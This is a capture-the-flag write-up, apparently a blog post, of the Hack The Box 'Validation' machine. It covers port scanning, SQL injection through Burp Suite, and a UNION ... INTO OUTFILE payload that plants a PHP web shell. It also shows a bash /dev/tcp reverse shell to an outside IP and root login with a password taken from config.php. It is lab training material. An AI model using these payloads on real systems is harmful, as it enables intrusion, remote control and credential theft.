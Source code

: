 ```yaml
---
title:  "Writeup Validation machine of Hack The Box"
date: 2023-04-16
mathjax: true
layout: post
categories: writeup
tags: sql-injection burpsuite php web-shell
---
```


# Resolution of Validation machine of Hack The Box

![](https://i.ibb.co/SdzyZRf/validation.png)

### 💉 *"Machine vulnerable to SQL Injection !!"*

**As always, we first check that we have a connection to the victim machine, from our attacking machine. One way to do this is by sending ICMP packets with the "ping" command:**

```bash
ping -c 1 10.10.11.116
```

**We now know that we have a connection to the machine since it responded with the packets we received**.

![](https://i.ibb.co/tMw3TDP/ping.png)

First we do an Active scan of the machine in search of open ports with the following command

```bash
sudo nmap 10.10.11.116 -p- --min-rate 5000 -sS -Pn -oG openPorts -vvv 
```

With the above command we export the result in a format in which we can extract the open ports with the help of commands such as *"grep, awk and others "* and then scan in depth:

```bash
sudo nmap 10.10.11.116 -p22,80,4566,8080 -sV -sC -sS -Pn -oN scanComplete -vvv
```

#### Now with the complete scan we obtain the following result:

![](https://i.ibb.co/HX2nbYG/nmap.png)

As port 80 is open running the http service, we enter in the web browser the IP address of the machine through that port:

*But before continuing with the pentesting of this machine, we add as host "validation.htb" with the IP of the machine (10.10.11.116)*.

![](https://i.ibb.co/ZMB5KXJ/etc-hosts.png)

**We see that we have a simple form, written in HTML with an input that allows us to choose our "Username" as well as the region, which defaults to "Brazil". If we inspect the source code we can see that the <form> i.e. the form, sends the values of the "Username" and the "Region" to the web server. With this we can think that these values are hosted in a Database:**.

![](https://i.ibb.co/nBv2wxC/form-html.png)

## Burp Suite

**Now we configure the FoxyProxy extension in Firefox to redirect the request through our localhost on port 8080 (127.0.0.1:8080). This way we intercept it with Burp Suite and from there follow:**

![](https://i.ibb.co/rdCRMvK/burp-suite.png)

**Now from Burp Suite, we comment the value of the “country” field and inject the code:**

```
or 1=1
```

![](https://i.ibb.co/h1gK15v/sqli-nourl.png)

Then we encode it with URL encoding:

![](https://i.ibb.co/crrD0TR/sqli-url.png)

Now if we go back to the web part, we see that the Backend Error is leaked, which makes us think that it is vulnerable to SQL Injection:

![](https://i.ibb.co/xFDK3xZ/sqli-vulnerable.png)

## Once the vulnerability has been found, we create a Backdoor.

As we can see on the site, the web application uses PHP. We can try to inject a web-shell in PHP through a SQL Injection attack:

*The code we are going to use to add a web-shell with an SQL Injection will be:*

```sql
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

*With the previous code we tell the server to also select that fraction of code, (which is the Backdoor), and insert it in the file /var/www/html/shell.php. That is to say that shell.php will be our web-shell in PHP. It is also good to know that normally the web servers that are executed in Linux (these are the majority at the moment, although not all), have as root of web directories the route /var/www/html*.

![](https://i.ibb.co/M8HJL2d/backdoor.png)

## Works!!

We have our web-shell ready in the path /shell.php, now to execute a command in the server we only have to add the following query:

```
shell.php?cmd={comando}
```

![](https://i.ibb.co/3Nc8csP/web-shell.png)

Now we go to [https://www.revshells.com/](https://www.revshells.com/) and generate a payload to execute a Reverse Shell with Netcat and to be able to connect to the server from an interactive console. We execute it as a command in the Backdoor of "shell.php".

After trying several types of shells, it worked for me to add it:

```bash
bash -c '{payload de la shell}'
```

Which would look like this:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.2/4545 0>&1'
```

We encode it as a URL and execute the code in the web-shell, from the browser or from Burp Suite.

**We see in the "config.php" file a password **.

![](https://i.ibb.co/hZfGLGh/config-php.png)

**As we are Pentesters, we have to test all the ways in which the system could be accessed in a privileged way, so we try to use that password to authenticate as root user:** 

## YES! It seems that this is the root password.

![](https://i.ibb.co/NsT0Z4n/flag-root.png)

### And with this we finish the machine and we have full access to the system.

Happy Hacking!!

----

## Author: Mateo Fumis 
